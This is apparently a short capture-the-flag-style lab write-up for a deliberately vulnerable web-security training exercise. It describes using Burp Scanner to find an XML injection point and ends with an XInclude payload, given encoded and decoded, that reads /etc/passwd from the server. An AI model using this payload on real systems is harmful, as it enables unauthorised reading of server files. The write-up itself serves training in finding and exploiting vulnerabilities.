


# Discovering vulnerabilities quickly with targeted scanning
# Objective
This lab contains a vulnerability that enables you to read arbitrary files from the server. To solve the lab, retrieve the contents of `/etc/passwd` within 10 minutes.\
Due to the tight time limit, we recommend using Burp Scanner to help you. You can obviously scan the entire site to identify the vulnerability, but this might not leave you enough time to solve the lab. Instead, use your intuition to identify endpoints that are likely to be vulnerable, then try running a targeted scan on a specific request. Once Burp Scanner has identified an attack vector, you can use your own expertise to find a way to exploit it. 

# Solution
## Analysis
||
|:--:| 
| *Active scan results* |
| *Detection of XML injection* |

## Exploitation

||
|:--:| 
| *Exploitation of XML injection* |


Final payload:
```
Encoded: %3cczl%20xmlns%3axi%3d%22http%3a%2f%2fwww.w3.org%2f2001%2fXInclude%22%3e%3cxi%3ainclude%20parse%3d%22text%22%20href%3d%22file%3a%2f%2f%2fetc%2fpasswd%22%2f%3e%3c%2fczl%3e
Decoded: <czl xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></czl>
```
